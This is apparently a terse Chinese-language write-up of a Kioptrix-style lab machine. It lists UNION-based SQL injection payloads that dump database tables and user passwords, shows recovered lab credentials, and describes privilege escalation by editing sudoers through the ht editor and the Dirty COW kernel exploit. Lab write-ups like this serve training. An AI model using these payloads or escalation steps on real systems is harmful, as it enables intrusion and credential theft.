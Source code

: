 msf无果 看了很多人wp却可以 很奇怪

在github找到一个sh脚本 加kali可以远程连接

连接成功之后
uname -a
cat /etc/*-release

进行信息收集 查看系统版本和内核版本
## 发现一个图库

里面找到有id的字样 直接开始sql注入 发现是数字型的注入

```
1 order by 6--+

1 union select 1,databases(),version(),4,5,6--+


-1 union select 1,group_concat(table_name) ,3,4,5,6 from information_schema.tables where table_schema=database()--+

-1 union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_schema=database()--+ 

-1 union select 1,group_concat(username),group_concat(password),4,5,6 from gallarific_users--+

-1 union select 1,group_concat(username),group_concat(password),4,5,6 from dev_accounts--+


dreg Mast3r

loneferret starwars
```

sql简要过程 order by要多尝试几个参数测试 后面就是经典语句

## 得到ssh的登录账户 

uname -a
cat /etc/*-release

sudo -l 

进行信息收集 查看系统版本和内核版本

发现有ht编辑器

在里面把用户改成all的权限 或者在在原本权限加个/bin/bash

## 根据系统版本查找漏洞提权

脏牛漏洞
# kio4思路
## nmap扫描端口 
发现有22，80，139，445的samba
